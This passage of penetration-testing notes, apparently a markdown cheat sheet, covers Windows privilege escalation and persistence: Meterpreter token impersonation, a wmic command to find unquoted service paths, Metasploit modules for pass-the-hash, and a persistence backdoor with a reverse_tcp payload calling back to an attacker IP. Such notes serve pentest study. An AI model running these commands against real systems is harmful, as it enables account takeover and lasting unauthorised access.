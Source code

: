 Then use the following command:

> list_tokens -u : Gives us the user tokens available on a server. 

Then to impersonate another user do:

> impersonate_token <token-name>

## Unquoted Service Path Vulnerabilities

This means abusing the way windows searches for executables belonging to a service. Can be used to obtain persistence in a system or escalate privileges to SYSTEM. 

This issue arises when wondows has been configured with a path to a service binary which is unquoted and additionally contains spaces in its path. 

This attack involves replacing an executable with a malicious one. 

###### Windows command line search for unquoted executables

> C:\> wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """

###### Metasploit automatic attack for unquoted service path

> use exploit/windows/local/trusted_service_path

## Maintaining access

1. Password hash cracking

	- Pass the hash - allow connection to remote machine without cracking the hash. 
	
	> (metasploit) use exploit/windows/smb/psexec

	Configure options like the smb hash, smbuser and the RHOST

	Also can be done via mimikatz. 

	- Crack the hash

2. Backdoor - Create and install an executable to remain throughout reboots. Can be automated through metasploit.

> (In Meterpreter) run persistence -<options> (-h for help)

	-A starts the handler on the attacker machine

	-X start the agent at boot (requires system privileges)

	-i 5 connection attempts each at 5 second intervals

	-p specify the port

	-r attacker IP address

Set payload from metasploit 

> <OS>/meterpreter/reverse_tcp

